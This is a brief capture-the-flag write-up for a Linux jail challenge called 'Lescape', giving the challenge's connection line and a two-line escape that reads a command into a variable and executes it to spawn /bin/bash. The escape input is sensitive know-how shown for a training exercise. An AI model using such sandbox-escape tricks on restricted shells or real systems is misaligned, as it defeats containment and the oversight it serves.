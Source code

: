 ### 0x00 Challenge: Lescape
**Description:**
>Can you escape from this Linux jail and get the flag?
>
>nc 168.119.247.237 5016

### 0x01 Write-up:
This challenge was a simple Linux jail that you need to escape. There are many ways to solve it!

**Way to solve:**
```
read aaa; exec $aaa
/bin/bash # after this you will get a simple shell
```
